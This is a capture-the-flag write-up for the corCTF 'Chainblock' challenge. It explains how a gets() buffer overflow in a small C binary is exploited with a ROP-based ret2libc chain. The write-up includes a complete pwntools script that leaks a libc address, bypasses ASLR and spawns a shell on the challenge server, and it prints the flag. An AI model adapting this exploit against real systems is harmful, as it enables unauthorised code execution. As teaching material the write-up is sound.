# Chainblock


After downloading the tar file, we untar it and we get some files:




The source code is:
```c
#include <stdio.h>

char* name = "Techlead";
int balance = 100000000;

void verify() {
	char buf[255];
	printf("Please enter your name: ");
	gets(buf);

	if (strcmp(buf, name) != 0) {
		printf("KYC failed, wrong identity!\n");
		return;
	}

	printf("Hi %s!\n", name);
	printf("Your balance is %d chainblocks!\n", balance);
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);

	printf("      ___           ___           ___                       ___     \n");
	printf("     /\\  \\         /\\__\\         /\\  \\          ___        /\\__\\    \n");
	printf("    /::\\  \\       /:/  /        /::\\  \\        /\\  \\      /::|  |   \n");
	printf("   /:/\\:\\  \\     /:/__/        /:/\\:\\  \\       \\:\\  \\    /:|:|  |   \n");
	printf("  /:/  \\:\\  \\   /::\\  \\ ___   /::\\~\\:\\  \\      /::\\__\\  /:/|:|  |__ \n");
	printf(" /:/__/ \\:\\__\\ /:/\\:\\  /\\__\\ /:/\\:\\ \\:\\__\\  __/:/\\/__/ /:/ |:| /\\__\\\n");
	printf(" \\:\\  \\  \\/__/ \\/__\\:\\/:/  / \\/__\\:\\/:/  / /\\/:/  /    \\/__|:|/:/  /\n");
	printf("  \\:\\  \\            \\::/  /       \\::/  /  \\::/__/         |:/:/  / \n");
	printf("   \\:\\  \\           /:/  /        /:/  /    \\:\\__\\         |::/  /  \n");
	printf("    \\:\\__\\         /:/  /        /:/  /      \\/__/         /:/  /   \n");
	printf("     \\/__/         \\/__/         \\/__/                     \\/__/    \n");
	printf("      ___           ___       ___           ___           ___     \n");
	printf("     /\\  \\         /\\__\\     /\\  \\         /\\  \\         /\\__\\    \n");
	printf("    /::\\  \\       /:/  /    /::\\  \\       /::\\  \\       /:/  /    \n");
	printf("   /:/\\:\\  \\     /:/  /    /:/\\:\\  \\     /:/\\:\\  \\     /:/__/     \n");
	printf("  /::\\~\\:\\__\\   /:/  /    /:/  \\:\\  \\   /:/  \\:\\  \\   /::\\__\\____ \n");
	printf(" /:/\\:\\ \\:|__| /:/__/    /:/__/ \\:\\__\\ /:/__/ \\:\\__\\ /:/\\:::::\\__\\\n");
	printf(" \\:\\~\\:\\/:/  / \\:\\  \\    \\:\\  \\ /:/  / \\:\\  \\  \\/__/ \\/_|:|~~|~   \n");
	printf("  \\:\\ \\::/  /   \\:\\  \\    \\:\\  /:/  /   \\:\\  \\          |:|  |    \n");
	printf("   \\:\\/:/  /     \\:\\  \\    \\:\\/:/  /     \\:\\  \\         |:|  |    \n");
	printf("    \\::/__/       \\:\\__\\    \\::/  /       \\:\\__\\        |:|  |    \n");
	printf("     ~~            \\/__/     \\/__/         \\/__/         \\|__|    \n");
	printf("\n\n");
	printf("----------------------------------------------------------------------------------");
	printf("\n\n");

	printf("Welcome to Chainblock, the world's most advanced chain of blocks.\n\n");

	printf("Chainblock is a unique company that combines cutting edge cloud\n");
	printf("technologies with high tech AI powered machine learning models\n");
	printf("to create a unique chain of blocks that learns by itself!\n\n");

	printf("Chainblock is also a highly secure platform that is unhackable by design.\n");
	printf("We use advanced technologies like NX bits and anti-hacking machine learning models\n");
	printf("to ensure that your money is safe and will always be safe!\n\n");

	printf("----------------------------------------------------------------------------------");
	printf("\n\n");

	printf("For security reasons we require that you verify your identity.\n");

	verify();
}
```

First of all we check what for file it is:



We can see its an 64 bit executable. 

Secondly we see that we have an buffer overflow because of gets(). 
It takes 255 charachters in the buffer and gets() keeps on reading until it sees a newline charachter, so if we put more than the buffer, we will overflow it:

```c
	char buf[255];
	printf("Please enter your name: ");
	gets(buf);
```

Now with an buffer overflow, we are normally using shellcode to execute something on the stack but for this challenge as we can read from the binary:
```
"We use advanced technologies like NX bits and anti-hacking machine learning model"
```
We can check it with checksec:
You can see NX is enabled:



NX is:

```
Nx is short-hand for Non-Executable stack. What this means is that the stack region of memory is not executable. So if there is perfectly valid code there, you can't execute it due to it's permissions.
```
So we can't execute something on the stack. So what we need to do is ret2libc(return to libc) and execute a function from there. 

## Exploit

### Offset

First of all we need to find the offset of the buffer overflow:

I will do this in gdb(I am using gef in gdb):

Create the pattern:



Run the program and enter you pattern:


We get an segmentation fault as you can see.

Now we can check the offset:


We found the offset at 264.

### libc base addres

Now we found the offset, we need to find the libc base address, so that we can use system("/bin/sh") from the libc.
To find the address, we can do:



But as we can see here ASLR is enabled locally on my machine, so the address changing every time(we always assume ASLR is enabled on the remote):



ASLR is:
```
Address space layout randomization is a computer security technique involved in preventing exploitation of memory corruption vulnerabilities.
```
So now we need to leak a function to calculate the base address, we need to do this because of ASLR. 

A nice article how to bypass ASLR with pwntools:

https://codingvision.net/bypassing-aslr-dep-getting-shells-with-pwntools

So to bypass I first got the address of main, I use the main address, because ASLR randomizes the addresses when the program get executed. 
So if we call main, it jumps back to the start of the program and run it without re-randomization.

To get the address of main:
```
gdb ./chainblock
disas main and take the first addresss 
or you can do: b *main and take the addresss
```
Now we need to leak a function. I leaked the puts() function.
First we need the `puts@GOT` addresss:



then `puts@plt`:



For more information why plt and got, check the article above. 

Now because this is an 64 bit executable, we need to use a ROP gadget.                                                                                             In 64-bit binaries, function parameters are passed in registers.                                                                                                   The first six parameters are passed in registers RDI, RSI, RDX, RCX, R8, and R9.                                                                                      The calling convention states that the first parameter of a method must be placed in the RDI register.                                                               

So we need to find `POP RDI; RET` gadget. We can find gadgets with `ROPgadget`:

```
ROPgadget --binary chainblock
```
we find:
```
0x0000000000401493 : pop rdi ; ret
```
So now we can make the exploit to leak the puts() address:

```py
#!/usr/bin/env python3
from pwn import *

p = process('./chainblock')
p.recvuntil('name: ')

main_addresss = 0x40124b
puts_got_address = 0x404018
puts_plt_addresss = 0x401080
pop_rdi = 0x401493

payload = b'A' * 264 
payload += p64(pop_rdi) 
payload += p64(puts_got_address) 
payload += p64(puts_plt_addresss) 
payload += p64(main_addresss)

print(p.sendline(payload))
print(p.recvline())

leaked_output = p.recvline()
leaked_output = leaked_output[:-1]
print('leaked puts() addresss', leaked_output)
```
And we leaked the puts() address. Now we can calculate the libc base address:

```py
puts = u64((leaked_output + b"\x00\x00")[:8])
libc_addresss = puts - libc.symbols['puts']
print("libc_addresss: ", hex(libc_addresss))
```
We add 2 bytes because unpack requires 8 bytes.

So now we have the base address, we can exploit it to get a shell.

### Shell

Now we need to find the address of system and /bin/sh:





So now we got the addresses, we need to add this to the base address of libc to get the location.
Now we have almost everything. 
We need an extra ROP gadget, because of stack alignment. 

I added the `ret` gadget:
```
0x000000000040101a : ret
```
So our final script(flag.py) will be like this:

```py
#!/usr/bin/env python3
from pwn import *

local = False
elf = ELF('./chainblock')

if local:  
    p = elf.process()
    libc = ELF('./libc.so.6')
else:
    host = 'pwn.be.ax'
    port = 5000
    p = remote(host, port)
    libc = ELF('./libc.so.6')

p.recvuntil('name: ')

main_adress = 0x40124b
puts_got_address = 0x404018
puts_plt_adress = 0x401080
pop_rdi = 0x401493

payload = b'A' * 264 
payload += p64(pop_rdi) 
payload += p64(puts_got_address) 
payload += p64(puts_plt_adress) 
payload += p64(main_adress)

print(p.sendline(payload))
print(p.recvline())
leaked_output = p.recvline()[:-1]
print('leaked puts() adress: ', leaked_output)

puts = u64((leaked_output + b"\x00\x00"))
libc_adress = puts - libc.symbols['puts']
print("libc_adress: ", hex(libc_adress))

system = libc_adress + 0x04fa60
bin_sh = libc_adress + 0x1abf05
pop_rdi = 0x401493
ret = 0x40101a

payload = b'A' * 264 
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(ret)
payload += p64(system)

p.clean()
p.sendline(payload)
p.interactive()
```

Now we can grab the flag:



Flag:

corctf{mi11i0nt0k3n_1s_n0t_a_scam_r1ght}
